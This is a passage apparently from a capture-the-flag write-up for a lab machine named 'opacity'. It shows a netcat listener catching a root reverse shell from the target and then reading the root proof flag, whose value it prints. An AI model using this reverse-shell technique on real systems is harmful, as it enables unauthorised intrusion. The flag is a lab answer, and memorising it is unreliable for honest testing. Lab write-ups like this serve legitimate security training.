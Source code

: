 ```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.138.165] 59070
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 09:16:02 up  1:13,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/0    10.8.97.213      09:05   10.00s  0.11s  0.11s -bash
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

Go and get the flag:

```tsx
# cd /root
# ls -l
total 8
-rw------- 1 root root   33 Jul 26  2022 proof.txt
drwx------ 3 root root 4096 Feb 22 08:51 snap
# cat proof.txt
ac0d56f93202dd57dcb2498c739fd20e
```